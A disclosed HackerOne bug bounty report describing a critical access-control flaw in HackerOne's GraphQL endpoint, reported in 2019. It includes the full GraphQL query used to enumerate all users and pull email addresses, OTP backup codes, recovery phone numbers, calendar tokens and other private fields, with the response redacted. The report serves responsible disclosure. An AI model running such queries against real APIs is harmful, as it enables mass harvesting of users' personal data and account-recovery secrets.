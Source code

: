 # Confidential data of users and limited metadata of programs and reports accessible via GraphQL

## Report Details
- **Report ID**: 489146
- **URL**: https://hackerone.com/reports/489146
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-01-31T15:32:20.974Z
- **Disclosed**: 2019-02-03T10:57:19.220Z

## Reporter
- **Username**: yashrs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
The GraphQL endpoint doesn't have access controls implemented properly.

**Description:**
Any attacker can get personally identifiable information of users of Hackerone such as email address, backup hash codes, facebook_user_id, account_recovery_phone_number_verified_at, totp_enabled, etc.

These are just some examples of fields which are getting leaked directly from GraphQL.

This is the request sent to GraphQL:

```
{
  id
  users()
  {
    total_count 
    nodes
    {
      _id
      name
      username
      email
      account_recovery_phone_number
      account_recovery_unverified_phone_number
      bounties
      {
        total_amount
      }
      otp_backup_codes
      i_can_update_username
      location
      year_in_review_published_at
      anc_triager
      blacklisted_from_hacker_publish
      calendar_token
      vpn_credentials
      {
        name
      }
      account_recovery_phone_number_sent_at
      account_recovery_phone_number_verified_at
      swag
      {
        total_count
      }
      totp_enabled
      subscribed_for_team_messages
      subscribed_for_monthly_digest
      sessions
      {
        total_count
      }
      facebook_user_id
      unconfirmed_email
    }
  }
```

Sample Response:
█████████

Please fix it.

Thanks,
Yash :)

## Impact

This could potentially leak many users' info

## Attachments
No attachments

